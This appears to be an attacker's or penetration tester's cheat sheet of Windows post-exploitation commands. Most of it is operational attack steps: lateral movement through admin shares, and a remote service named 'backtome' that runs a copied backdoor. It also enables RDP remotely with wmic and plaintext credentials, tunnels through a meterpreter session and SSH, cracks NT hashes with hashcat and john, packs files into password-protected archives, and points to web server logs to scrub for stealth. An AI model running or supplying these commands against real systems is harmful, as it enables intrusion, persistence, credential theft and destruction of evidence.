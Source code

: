   Lateral movement using services
	
    net use \\remote\c$ /user:Administrator password
		dir \\remote\c$
		copy backdoor here
		Create service called backtome
		sc \\remote create backtome binpath=""
		sc \\remote start backtome
		
RDP

	Enable RDP
		reg query HKLM\System\CurrentControlSet\Control\Terminal Server /v fDenyTSConnections
		reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
		netsh advfirewall firewall set rule group="remote desktop" new enable=yes

		wmic /node:"192.168.11.155" /user:"Administrator" /password:"assword" process call create "cmd.exe /c reg add \"HKLM\System\CurrentControlSet\Control\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 0 /f" 
		wmic /node:"192.168.11.155" /user:"Administrator" /password:"assword" process call create "cmd.exe /c netsh advfirewall firewall set rule group='remote desktop' new enable=yes"

	Disable RDP
		reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
		netsh advfirewall firewall set rule group="remote desktop" new enable=false


	Check RDP port 3389 is open
	In meterpreter session: portfwd add -l 5566 -p 3389 -r 192.168.11.155
	This will forward kalivps port 5566 to 192.168.11.155 thru the meterpreter session on web server
	Then on our own kali, port forward 5555 to 5566 on kali
	ssh -L 5555:localhost:5566 kali@IP.com
	Finally, connect to local port 5555
	xfreerdp /u:user /p:assword /v:localhost:5555 



Cracking hashes

	Prep the hash file: cat hashes | cut -d':' -f4 > nt.hashes
	hashcat -a 0 -m 1000 6e9b2ca0d079abbd39147ee0366de4ec
	john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT nt.hashes


Extracting files

    Rar
	"C:\Program Files\WinRAR\rar.exe" a -r -hp<password> archiv.rar *.txt *.exe
	tar -xf archive.tar
	unzip archive.zip


Stealth

	Scrub http server logs after scan?
	IIS Logs: %SystemDrive%\inetpub\logs\LogFiles
	Apache: /var/log/apache2/access.log
	